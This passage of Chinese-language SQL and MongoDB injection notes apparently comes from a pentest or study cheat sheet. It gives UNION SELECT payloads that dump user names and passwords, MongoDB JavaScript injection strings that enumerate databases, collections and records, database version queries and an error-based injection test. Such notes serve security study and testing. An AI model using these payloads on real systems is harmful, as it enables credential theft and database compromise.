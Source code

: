 ```sql
爆数据：and 1=2 union select user_name,user_pwd from "sns_users"

爆其他数据：and 1=2 union select user_name,user_pwd from "sns_users" where USER_NAME<>'hu'

#Mongodb 看代码
参考：https://www.runoob.com/mongodb/mongodb-query.html
测回显：/new_list.php?id=1'}); return ({title:1,content:'2

爆库：  /new_list.php?id=1'}); return ({title:tojson(db),content:'1

爆表： /new_list.php?id=1'}); return ({title:tojson(db.getCollectionNames()),content:'1  

爆字段：/new_list.php?id=1'}); return ({title:tojson(db.Authority_confidential.find()[0]),content:'1

db.getCollectionNames()返回的是数组，需要用tojson转换为字符串

db.Authority_confidential是当前用的集合（表），find函数用于查询，0是第一条数据

```



# 漏洞危害

1.攻击者可以利用漏洞查询其他用户的用户凭据

2.攻击者可能控制数据库中的所有数据

3.提权安装后门木马

4.恶意操作，如清空数据库

# 检测方法

## 查询数据库版本

| 数据库类型       | 语句                                                         |
| ---------------- | ------------------------------------------------------------ |
| Microsoft, MySQL | `SELECT @@version`                                           |
| Oracle           | `SELECT * FROM v$version`或者`SELECT version FROM v$instance` |
| PostgreSQL       | `SELECT version()`                                           |

## 显错注入

```
SELECT first_name, last_name FROM users WHERE user_id = '1';
SELECT first_name, last_name FROM users WHERE user_id = '1'';
```
